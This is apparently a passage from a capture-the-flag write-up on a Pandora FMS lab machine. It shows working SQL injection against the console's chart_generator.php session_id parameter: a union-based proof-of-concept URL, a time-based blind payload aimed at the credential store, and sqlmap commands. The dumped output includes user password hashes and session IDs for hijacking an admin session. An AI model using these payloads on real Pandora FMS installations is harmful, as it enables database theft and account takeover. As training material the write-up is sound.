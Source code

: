 ```php
				// Process.
				$session_data = session_decode($info['data']);
				$this->idUser = $_SESSION['id_usuario'];

				// Valid session.
				return $this;
			}

			return null;
		}
```

Here is the PoC which you can see error of the SQL statement:
```
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=a' union select 1;-- -

SQL error: The used SELECT statements have a different number of columns ('SELECT * FROM tsessions_php WHERE `id_session` = 'a' UNION SELECT table_schema, table_name, 1,1 FROM information_schema.tables;-- -' LIMIT 1') in**/var/www/pandora/pandora_console/include/db/mysql.php**on line 114
```

I tried mutiple columns and I relized that there are 3 columns in current table which is `tsessions_php`\
Also I could execute `time-based` SQLi with this payload:
```
a' - IF(ASCII(LOWER(SUBSTRING((SELECT username FROM tcredential_store WHERE identifier>1),1,1))) > 20,SLEEP(1),0);-- -
```

So Lets automate this with `sqlmap` Here is the database names:
```bash
sqlmap.py -u "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=a'" --dbms=MySQL --dbs
available databases [2]:
[*] information_schema
[*] pandora
```

And here is the content of table `rusuario` which is users table. as we can see we already extratced users information through API:
```
Database: pandora
Table: tusuario
[3 entries]
+--------------------+---------+----------+----------------------------------+
| email              | id_user | is_admin | password                         |
+--------------------+---------+----------+----------------------------------+
| admin@pandora.htb  | admin   | 1        | ad3f741b04bd5880fb32b54bc4f43d6a |
| daniel@pandora.htb | daniel  | 0        | 76323c174bd49ffbbdedf678f6cc89a6 |
| matt@pandora.htb   | matt    | 0        | f655f807365b6dc602b31ab3d6d43acc |
+--------------------+---------+----------+----------------------------------+
```

we want `admin` password but it is uncrackable, There was also another table named `tsessions_php` which may have some valid sessions form admin user. Let's try that.\
I ran sqlmap again for `tsessions_php` table and it extracted a lot of data but here is what we want. the sessino `2e6n5vl4464up7shn0gav0n9to` looks like is for admin.
```
+----------------------------+--------------------------------------------------------------------------------------------------------+-------------+
| id_session                 | data                                                                                                   | last_active |
+----------------------------+--------------------------------------------------------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                                                                               | 1638783555  |
```